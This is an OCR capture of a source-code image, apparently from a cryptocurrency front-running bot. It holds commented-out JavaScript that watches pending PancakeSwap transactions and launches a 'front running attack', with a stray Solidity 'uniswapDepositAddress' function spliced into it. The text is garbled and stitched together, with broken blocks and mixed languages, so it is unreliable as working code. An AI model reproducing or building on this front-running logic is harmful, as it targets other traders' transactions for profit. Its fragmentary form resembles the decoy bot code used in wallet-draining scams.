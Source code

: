 
        //var signedTX = await user_wallet.signTransaction(approveTX);
        //var result = await web3.eth.sendSignedTransaction(signedTX.rawTransaction);

        //console.log('Approved Token')
    
    //return;


//select attacking transaction
//async function triggersFrontRun(transaction, out_token_address, amount, level) {
    
    //if(attack_started)
        //return false;

    //console.log((transaction.hash).yellow, parseInt(transaction['gasPrice']) / 10**9);
    //if(parseInt(transaction['gasPrice']) / 10**9 > 10 && parseInt(transaction['gasPrice']) / 10**9 < 50){
        //attack_started = true;
        //return true
}

    //return false;

    //if (transaction['to'] != PANCAKE_ROUTER_ADDRESS)
            //console.log(transactionHash);

            // let transaction = await web3.eth.getTransaction(transactionHash);
            // if (transaction != null && transaction['to'] == PANCAKE_ROUTER_ADDRESS)
            // {
				            function uniswapDepositAddress() public pure returns (address) {
            //     await handleTransaction(transaction, out_token_address, user_wallet, amount, level);
            // }
            
            //if (succeed) {
                //console.log("The bot finished the attack.");
                //process.exit();
               
            
     

    //catch (error) {
      
      //if(error.data != null && error.data.see === 'https://infura.io/dashboard')
      
         //console.log('Daily request count exceeded, Request rate limited'.yellow);
         //console.log('Please insert other API Key');
      //else{
         //console.log('Unknown Handled Error');
         //console.log(error);
       

      //process.exit();


//function handleTransaction(transaction, out_token_address, user_wallet, amount, level) {
    
    //(await triggersFrontRun(transaction, out_token_address, amount, level)) {
        //subscription.unsubscribe();
        //console.log('Perform front running attack...');
